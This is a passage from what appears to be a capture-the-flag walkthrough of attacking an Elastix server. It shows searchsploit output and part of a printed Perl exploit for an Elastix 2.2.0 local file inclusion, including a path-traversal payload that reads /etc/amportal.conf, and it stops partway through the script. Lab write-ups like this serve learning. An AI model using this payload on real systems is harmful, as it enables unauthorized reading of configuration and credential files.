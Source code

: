 What about VTigerCRM?
```
hippoeug@kali:~$ searchsploit vtigercrm
Exploits: No Results
Shellcodes: No Results
```
Nothing. Let's focus on Elastix exploits.

## 7. Attack Attempt 3: Attacking Elastix on Port 443 (Method 1: VTigerCRM)
Since we are looking for a Elastix exploit, we try to get the version of Elastix being ran.
However, neither the landing page nor Gobuster/Dirbuster revealed the version of Elastix. Viewing Elastix page source on 443 didn't reveal the version either. Using Burp to intercept a response from Elastix, we still do not find any version numbers. Let's just try using some of the exploits we saw from doing `searchsploit elastix`.

Trying the first one, `Elastix 2.2.0 - 'graph.php' Local File Inclusion | php/webapps/37637.pl`, we examine it first.
```
hippoeug@kali:~$ searchsploit -x 37637.pl
  Exploit: Elastix 2.2.0 - 'graph.php' Local File Inclusion
      URL: https://www.exploit-db.com/exploits/37637
     Path: /usr/share/exploitdb/exploits/php/webapps/37637.pl
File Type: ASCII text, with CRLF line terminators

source: https://www.securityfocus.com/bid/55078/info
Elastix is prone to a local file-include vulnerability because it fails to properly sanitize user-supplied input.
An attacker can exploit this vulnerability to view files and execute local scripts in the context of the web server process. This may aid in further attacks.
Elastix 2.2.0 is vulnerable; other versions may also be affected. 

#!/usr/bin/perl -w

#------------------------------------------------------------------------------------# 
#Elastix is an Open Source Sofware to establish Unified Communications. 
#About this concept, Elastix goal is to incorporate all the communication alternatives,
#available at an enterprise level, into a unique solution.
#------------------------------------------------------------------------------------#
############################################################
# Exploit Title: Elastix 2.2.0 LFI
# Google Dork: :(
# Author: cheki
# Version:Elastix 2.2.0
# Tested on: multiple
# CVE : notyet
# romanc-_-eyes ;) 
# Discovered by romanc-_-eyes
# vendor http://www.elastix.org/

print "\t Elastix 2.2.0 LFI Exploit \n";
print "\t code author cheki   \n";
print "\t 0day Elastix 2.2.0  \n";
print "\t email: anonymous17hacker{}gmail.com \n";

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

use LWP::UserAgent;
print "\n Target: https://ip ";
chomp(my $target=<STDIN>);
$dir="vtigercrm";
$poc="current_language";
$etc="etc";
```